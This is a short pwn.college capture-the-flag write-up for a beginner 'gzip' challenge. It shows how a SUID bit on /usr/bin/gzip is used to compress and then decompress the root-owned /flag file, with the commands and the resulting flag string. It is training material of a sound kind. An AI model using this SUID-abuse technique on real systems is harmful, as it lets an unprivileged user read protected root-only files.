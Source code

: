 # Challenge Name: gzip
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/gzip`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/gzip
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/gzip
```

-The `s` in `-rws` indicates it's a SUID binary.
-`gzip` runs with **root privileges**.

## 🚀 Exploitation

The `gzip` command is used to compress files in Linux using the .gz format, reducing their size for storage or transmission. 

But,

```bash
gzip -c /flag > myflag.gz
```
can be used to zip the flag file while moving its content to our own file:

```bash
gunzip myflag.gz
cat myflag
```

Output:
```
pwn.college{wAoshGL8m69nzbs2g2W_2SsL-A6.dlTNxwSM0IzMyEzW}
```

      
